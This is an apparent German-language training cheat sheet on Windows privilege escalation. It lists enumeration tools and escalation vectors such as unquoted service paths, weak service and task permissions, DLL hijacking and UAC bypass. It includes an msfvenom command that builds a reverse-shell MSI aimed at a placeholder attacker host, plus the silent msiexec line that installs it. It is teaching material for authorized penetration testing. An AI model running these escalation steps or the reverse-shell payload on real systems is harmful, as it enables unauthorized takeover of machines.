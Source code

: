 # 🪟 Windows Privilege Escalation 

## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Nützliche Tools](#nützliche-tools)
- [Typische Escalation-Vektoren](#typische-escalation-vektoren)
- [Tipps zur Analyse](#tipps-zur-analyse)
- [Weiterführende Links](#weiterführende-links)
- [Haftungsausschluss](#haftungsausschluss)

## Einleitung

Diese Datei dokumentiert Methoden, Tools und Vorgehensweisen zur Privilegienerweiterung (Privilege Escalation) auf **Windows-Systemen**. Sie dient ausschließlich zu **Schulungszwecken** im Rahmen von Penetration Tests und Security-Audits durch autorisierte Fachkräfte.

---

## Nützliche Tools

### 1. `whoami`-Befehle

```bash
whoami /user           # Aktueller Benutzername mit SID
whoami /groups         # Gruppenmitgliedschaften (z. B. Admins)
whoami /priv           # Aktive Berechtigungen des Benutzers
```

### 2. `accesschk.exe` von Sysinternals

Tool zur Analyse von Zugriffsrechten:

```bash
accesschk.exe -uws "Benutzer" *               # Zugriffsrechte auf Dienste
accesschk.exe -ucqv Benutzer Pfad\zur\Datei  # Detaillierte Rechteprüfung
```

### 3. `Seatbelt.exe`

Tool zur Informationssammlung auf dem Zielsystem (C#):

```bash
Seatbelt.exe all
```

Funktioniert gut bei eingeschränkten Benutzerrechten – erkennt z. B. gespeicherte Passwörter, schwache Registry-Einstellungen usw.

### 4. `WinPEAS.exe`

Automatisiertes Enumeration-Tool:

```bash
WinPEASx64.exe oder WinPEASx86.exe
```

Identifiziert potenzielle Schwachstellen wie Dienste mit schwachen ACLs, ungesicherte Tasks, UAC-Bypass-Möglichkeiten etc.

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Typische Escalation-Vektoren

### 🔹 1. Unquoted Service Paths

Nicht in Anführungszeichen gesetzte Pfade in Diensten:

```bash
sc qc <ServiceName>
```

Pfad zu ausführbarer Datei enthält Leerzeichen → eigene Binärdatei einschleusen.

### 🔹 2. Schwache Dienstrechte (Insecure Permissions)

Benutzer hat Schreibrechte auf den Dienst:

```bash
accesschk.exe -uws Benutzer *
```

→ Dienstdatei oder Binärpfad ersetzen.

### 🔹 3. Scheduled Tasks mit schwachen Rechten

```bash
taskschd.msc
schtasks /query /fo LIST /v
```

→ Aufgabe manipulieren oder durch Trojaner ersetzen.

### 🔹 4. AlwaysInstallElevated (MSI-Bypass)

```bash
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Werte:

```
AlwaysInstallElevated    REG_DWORD    0x1
```

Dann:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f msi > shell.msi
msiexec /quiet /qn /i shell.msi
```

### 🔹 5. DLL Hijacking

Wenn ein ausführbares Programm DLLs aus unsicheren Pfaden lädt:

* `.dll` Datei mit Payload erstellen
* In priorisierten Ordnern (gleicher Pfad wie EXE) ablegen

Tools zur Analyse: [Procmon.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)

### 🔹 6. UAC-Bypass (User Access Control)

Identifiziere UAC-schwache Prozesse:

* `fodhelper.exe`
* `eventvwr.exe`

UACMe-Tool: [https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)

---

## Tipps zur Analyse

* **PowerUp.ps1** (PowerShell Framework)
* **SharpUp** (C#): Enumeration wie PowerUp, aber für AV-Bypass geeignet
* **Windows Exploit Suggester – Next Generation**

---

## Weiterführende Links

* [GTFOBins Windows Pendant: LOLBAS](https://lolbas-project.github.io/)
* [Windows-Privilege-Escalation-Cheat-Sheet](https://github.com/netbiosX/Checklists)

---

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---